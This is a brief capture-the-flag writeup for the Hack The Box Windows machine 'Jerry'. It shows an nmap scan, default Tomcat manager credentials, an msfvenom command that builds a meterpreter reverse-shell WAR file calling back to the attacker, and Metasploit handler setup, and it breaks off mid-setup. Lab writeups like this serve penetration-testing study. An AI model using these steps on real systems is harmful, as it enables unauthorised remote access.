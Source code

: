 #	Jerry (10.10.10.95 -Windows box)
##	Writeup by Hexachroma

1. nmap -Pn -sC -sV -oN nmap/init {ip} -T5 -v
```
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache Tomcat/7.0.88
```
2. WebApp misconfiguration
>	Default creds tomcat:s3cret to view manager-gui
>	to exploit create a war file with msfvenom

3. Creating payload with msfvenom 
> 	`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$tun0 LPORT=9001 -f war -o exploit.war`
>	Note: `[1] */meterpreter_reverse_tcp != [2] */meterpreter/reverse_tcp`
>			since [1] is bigger in size than [2]

4. msfconsole -q
>	enter `use exploit/multi/handler`
>	enter `set payload windows/x64/meterpreter/reverse_tcp`
>	set LHOST tun0
>	set LPORT xxxx